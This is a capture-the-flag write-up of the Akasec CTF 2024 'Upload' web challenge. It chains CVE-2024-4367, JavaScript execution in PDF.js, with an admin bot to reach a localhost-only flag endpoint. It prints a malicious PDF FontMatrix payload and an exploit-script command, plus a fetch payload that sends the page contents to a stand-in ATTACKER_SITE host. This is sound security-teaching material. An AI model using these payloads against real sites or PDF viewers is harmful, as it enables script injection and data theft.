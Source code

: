 ```yaml
---
name: Upload (2024)
event: Akasec CTF 2024
category: Web
description: Writeup for Upload (Web) - Akasec CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Upload

## Video walkthrough

[![VIDEO](https://img.youtube.com/vi/XrSOaHoeJCo/0.jpg)](https://www.youtube.com/watch?v=XrSOaHoeJCo "XSS in PDF.js (CVE-2024-4367) and SSRF - Upload [Akasec CTF 2024]")

## Description

> Navigate a mysterious file upload journey.

## Solution

The challenge provides two URLs. The first is a web application with `/home`, `/register` and `/login` endpoints. The other is an admin bot, so I immediately think about XSS. Before registering an account, I decided to check the source code.

### Source code

#### bot.js

I'll start with `bot.js` since there's less code, and that's where we might expect the flag to be on an XSS challenge (admin cookie). There's no flag, though; the bot simply visits a user-provided URL.

```js
const page = await context.newPage();
// Visit URL from user
console.log(`bot visiting ${urlToVisit}`);
await page.goto(urlToVisit, {
    waitUntil: "networkidle2",
});
await sleep(8000);
cookies = await page.cookies();
console.log(cookies);

// Close
console.log("browser close...");
await context.close();
```

#### app.js

When I opened the main app, I quickly found the flag endpoint.

```js
app.get("/flag", (req, res) => {
    let ip = req.connection.remoteAddress;
    if (ip === "127.0.0.1") {
        res.json({ flag: "AKASEC{FAKE_FLAG}" });
    } else {
        res.status(403).json({ error: "Access denied" });
    }
});
```

It's validating the IP to ensure the request originated from the localhost, so it looks like we've got an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability. We can provide the URL to the bot; it will visit the page and get the flag in the response - simple. The question is, how can we retrieve the contents of that response?

An `/upload` endpoint allows users to upload files and then returns the URL of the hosted file.

```js
app.post("/upload", upload.single("file"), (req, res) => {
    const fileData = {
        filename: req.file.filename,
        path: req.file.path,
        user: req.user,
    };

    uploadfile.insert(fileData, (err, newDoc) => {
        if (err) {
            res.status(500).send(err);
        } else {
            res.redirect("/view/" + req.file.filename);
        }
    });
});
```

There's some validation on the file type allowed. - it must be PDF format.

```js
const upload = multer({
    storage: storage,
    fileFilter: (req, file, cb) => {
        if (file.mimetype == "application/pdf") {
            cb(null, true);
        } else {
            cb(null, false);
            return cb(new Error("Only .pdf format allowed!"));
        }
    },
});
```

### XSS

This makes me think about [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf), so I created an account and started testing different payloads. First, I thought we might need to change the content type to `application/pdf` but keep the filename as `exploit.html`. It's easy to bypass the MIME check, but you'll see a flood of errors in the console and messages like `InvalidPDFException`. That makes sense since it's trying to render a PDF 😅 Anyway, I didn't waste much time before returning to the source code.

We want to know the type of PDF generator being used in case there are any known vulnerabilities.

```js
const PDFJS = require("pdfjs-dist");
```

I Googled `pdfjs-dist exploit` and the 5th result stood out to me; [CVE-2024-4367 – Arbitrary JavaScript execution in PDF.js](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/)

> This bug allows an attacker to execute arbitrary JavaScript code as soon as a malicious PDF file is opened. This affects **all Firefox users** (<126) because PDF.js is used by Firefox to show PDF files

> PDF.js is bundled into a Node module called `pdfjs-dist`, with ~2.7 million weekly downloads according to NPM

The blog post is around 6 weeks old, so it's a good candidate! I'd encourage you to read the complete analysis because there's a lot in there, but here are some of the key points:

-   The bug lies in the glyph (font) rendering code
-   Some fonts are handled by the browser's font renderer, e.g. TrueType
-   For more obscure fonts, PDF.js turns glyph (character) descriptions into curves on the page
-   To improve performance, a path generator function is pre-compiled for every glyph
-   The function takes a list of `cmds` (potentially dangerous if an attacker can control)
-   One of these commands is interesting (`{ cmd: "transform", args: fontMatrix.slice() },`) as it copies the array with `slice()` and inserts it into the body of the `Function` object. It's assumed to be a numeric array, so injecting a string may lead to unintended behaviour!
-   The value of `fontMatrix` defaults to `[0.001, 0, 0, 0.001, 0, 0]` but is often set to a custom matrix directly by a font (metadata)
-   Unfortunately, most PDF readers will only accept a numeric array, i.e., even if we can inject a string into the matrix within the font metadata, it won't be processed
-   Luckily, there is another way to specify a `fontMatrix` - within a PDF metadata object (instead of the font)
-   Therefore, if we insert something like `/FontMatrix [1 2 3 4 5 (cat)]` into the PDF, we'll find that `cat` is inserted directly into the function body.
-   All that's left is to take care of the syntax, leveraging the trailing parenthesis: `/FontMatrix [1 2 3 4 5 (0\); alert\('cat')]`

They provide a link to a [PDF PoC](https://codeanlabs.com/wp-content/uploads/2024/05/poc_generalized_CVE-2024-4367.pdf), so I downloaded it and uploaded it to the challenge site. It pops an alert! We can review the request in Burp to see the responsible code.

```js
<< /BaseFont /SNCSTG+CMBX12 /FontDescriptor 6 0 R /FontMatrix [ 1 2 3 4 5 (1\); alert\('origin: '+window.origin+', pdf url: '+\(window.PDFViewerApplication?window.PDFViewerApplication.url:document.URL\)) ] /Subtype /Type1 /Type /Font >>
```

So, how did I develop my XSS payload? I told ChatGPT I want to `fetch the contents of another page and then send them to another web server` 🤓

It initially provides some ridiculously long payloads, but through our iterative feedback (aka "shorter plz"), we guide it to produce a more reasonable one.

```js
fetch("/flag")
    .then((r) => r.text())
    .then((t) => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));
```

I got some errors and figured I wasn't escaping all the required characters, so I Googled `CVE-2024-4367 PoC` and came across another [PoC](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

> A type check was missing when handling fonts in PDF.js, which would allow arbitrary JavaScript execution in the PDF.js context. This vulnerability affects Firefox < 126, Firefox ESR < 115.11, and Thunderbird < 115.11.

> If pdf.js is used to load a malicious PDF, and PDF.js is configured with isEvalSupported set to true (which is the default value), unrestricted attacker-controlled JavaScript will be executed in the context of the hosting domain.

```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));"
```

The PDF was generated successfully, but I got an error about `bad substitution.` Turns out I just needed to escape some characters.

```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(\`ATTACKER_SITE/?c=\${encodeURIComponent(t)}\`));"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```

When I upload the PDF and visit the URL, my browser console and web server logs are filled with errors.

```bash
200		GET	/?c=%7B%22error%22%3A%22Access%20denied%22%7D
```

### SSRF

Now that we know we can exfiltrate the HTTP response, we just need to share the link of our note with the admin/bot. The XSS exploit will _forge_ a _request_ to the `/flag` endpoint, and since it comes from the _server-side_ (localhost), the validation check will pass.

_Note:_ Maybe this is technically CSRF since the bot simulates an admin user, and the request happens via the headless Chrome browser rather than directly on the server? Then again, the admin bot code is technically on the server side, and the validation function checks that the request came from the server side (localhost), so I'm labelling it SSRF for now! Let me know if you disagree ✅

Regardless, the XSS payload will subsequently issue a request to our server, with the response included in the GET parameter.

```bash
200		GET	/?c=%7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3%7D%22%7D
```

The final step is to URL-decode the flag.

```bash
urldecode %7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3%7D%22%7D
{"flag":"AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3}"}
```

Flag: `AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3}` 🕊✌
